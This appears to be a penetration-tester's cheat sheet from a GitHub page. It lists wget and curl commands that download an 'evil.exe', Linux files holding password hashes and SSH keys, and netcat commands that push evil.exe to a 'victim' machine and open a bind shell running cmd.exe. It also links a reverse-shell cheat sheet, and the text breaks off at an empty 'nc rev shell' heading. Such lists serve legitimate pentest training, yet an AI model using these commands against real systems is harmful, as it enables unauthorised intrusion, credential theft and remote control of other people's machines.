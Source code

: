 **# Download / transfer file**

    wget -O fakevil.exe http:github.com/evilfile/evil.exe
    curl -o fakevil.exe http:github.com/evilfile/evil.exe

**# Linux interesting files**

	/etc/passwd 							#Contains local Linux users.
	/etc/shadow 							#Contains local account password hashes.
	/etc/group 							#Contains local account groups.
	/etc/init.d/ 							#Contains service init script
	/etc/hostname 							#System hostname.
	/etc/resolv.conf 						#System DNS servers.
	/etc/profile 							#System environment variables.
	~/.ssh/ 							#SSH keys.
	~/.bash_history 						#Users bash history log.
	/var/log/ 							#Linux system log files are typically stored here.
	/var/adm/ 							#UNIX system log files are typically stored here.
	/var/log/apache2/access.log | /var/log/httpd/access.log 	#Apache access log file typical path.
	/etc/fstab 							#File system mounts. 

## 3. [Basic Powershell for pentester](https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters)

## 4. Practical tool
[PayloadsAllTheThings - Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

**# Python3 simple server**

    python3 -m http.server 9000

**# Remote Desktop**

    kali: rdesktop victimIP -u username -p passwd -g 1024x768 -x 0x80

**# Netcat => connect to ssh server** 

    kali: nc -nv 192.168.0.5 22

**# Listen on tcp/udp**

    victim: nc -lvpn 4444
    kali: nc -nv 192.168.0.5 4444

**# nc transfer file to victim**

    victim: nc -lvpn 4444 > evil.exe
    kali: nc -nv 192.168.0.5 4444 < /root/Desktop/evil.exe

**# nc bind shell**

    victim: nc -nlvp 4444 -e cmd.exe
    kali: nc -nv 192.168.0.5 4444

**# nc rev shell**

